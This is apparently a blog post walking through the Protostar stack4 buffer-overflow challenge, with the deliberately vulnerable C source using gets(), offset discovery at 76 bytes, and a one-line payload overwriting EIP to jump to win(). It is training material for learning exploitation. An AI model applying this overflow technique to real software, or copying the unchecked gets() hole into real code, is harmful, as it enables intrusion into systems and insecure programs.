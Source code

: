 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Exploiting EIP - protostar stack4
categories: binary-exploitation
image: binary-exploitation/BOF4/0.png
---
```


<hr>
##### note : This article is small because I didn't want to solve stack 4 with stack 5 as stack 5 is different so I just wrote about stack 4 quickly
<br>
### Introduction
#### Hey again ,Today's article is going to be short. So last time I solved stack3 , I'm back again and today I'm going to solve stack4 which is really interesting , it's slightly different from stack3 but that difference is a new thing to see if we compare it to the previous challenges. So let's not talk too much and jump right in.
#### Read my [other articles about buffer overflow](/categories)
![](/images/binary-exploitation/BOF4/0.png)
<hr>
### ./stack4
#### Let's take a look at the source code first :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### Very simple ! it defines the `win` function then defines the `main` function which sets a buffer of 64 chars and stores our input in it. But wait a second where is the variable that we're gonna overwrite ? in the previous challenges we had a variable that is being used by a function to change the code flow , now what will we overwrite ?
#### The answer is the `EIP` which is the instruction pointer. And the instruction pointer is a memory address that holds the address of the next instruction in the program during execution. So if we overwrite that address the program will execute whatever that address refers to. let's try to exceed the buffer.
`python -c "print 'A' * 64"`
![](/images/binary-exploitation/BOF4/1.png)
#### The program didn't even crash ... why ? Because the return address is not directly after the buffer like in the previous challenges , Let's try 100 chars 
`python -c "print 'A' * 100"`
![](/images/binary-exploitation/BOF4/2.png)
#### The program crashed , Let's find where does it exactly crash like we did in the [previous challenge](/binary-exploitation/bof3) read it if you haven't done yet.
#### We will create a pattern with `pattern_create`
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF4/3.png)
#### Then we will pass it to the program in gdb 
![](/images/binary-exploitation/BOF4/4.png)
#### It crashes at `0x63413563`
#### We locate that with pattern_offset
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF4/5.png)
#### We get exact match at offset 76
#### Next step is to find the address of `win()` 
`objdump -d`
![](/images/binary-exploitation/BOF4/6.png)
#### The address is `0x080483f4`
#### Now we can build our exploit : 
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4`
![](/images/binary-exploitation/BOF4/7.png)
#### And we successfully changed the code flow !
<br>
#### That's it , feedback is appreciated.
#### Thanks for reading !
<hr>
